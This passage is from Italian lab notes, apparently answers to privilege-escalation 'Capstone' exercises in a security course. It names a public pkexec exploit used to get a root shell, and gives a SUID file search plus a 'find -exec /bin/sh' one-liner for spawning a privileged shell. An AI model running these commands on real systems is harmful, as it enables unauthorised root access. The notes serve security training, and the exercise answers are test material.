```bash
/bin/ping6
```

Quindi uso questa https://github.com/Almorabea/pkexec-exploit per sfruttare i permessi su /usr/bin/pkexec e ottengo una shell root.

## Capstone 2

```bash
find / -perm -u=s -type f 2>/dev/null
```

## Capstone 3
Tutto quello descritto in 17.3.2. Abusing Password Authentication

## Capstone 4

```bash
find / -perm -u=s -type f 2>/dev/null

find . -exec /bin/sh \; -quit
```


